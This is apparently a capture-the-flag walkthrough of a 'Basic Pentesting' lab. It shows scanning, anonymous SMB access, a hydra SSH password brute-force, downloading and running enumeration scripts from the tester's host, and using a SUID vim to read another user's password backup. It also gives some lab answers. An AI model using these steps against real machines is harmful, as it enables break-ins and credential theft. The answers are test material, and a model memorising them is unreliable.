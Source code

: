 # Basic Pentesting

## :spider\_web: Web App Testing and Privilege Escalation

### **#2 Find the services exposed by the machine**

```bash
sudo nmap 10.10.151.61
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-05-50.png>)

### #3 What is the name of the hidden directory on the web server?

```
gobuster dir -u http://10.10.53.189/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-07-05.png>)

### #5 **What is the username?**

```
smbclient -N -L //10.10.53.189/
smbclient -N //10.10.53.189/Anonymous
ls
get staff.txt
exit
cat staff.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-26-34.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-26-09.png>)

### #6 **What is the password?**

```
hydra -l jan -P /usr/share/metasploit-framework/data/wordlists/password.lst \
      ssh://10.10.53.189 -t 64 -V -f -I
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 11-53-14.png>)

### **#7 What service do you use to access the server?**

```
SSH
```

### #9 **What is the name of the other user you found(all lower case)?**

```
kay
```

### #11 **What is the final password you obtain?**

```
cd /tmp
wget http://10.9.101.193:8000/LinEnum.sh
bash LinEnum.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 12-21-06.png>)

```
wget http://10.9.101.193:8000/suid3num.py
python3 suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2020-08-31 12-22-23.png>)

```
vim.basic /home/kay/pass.bak
```
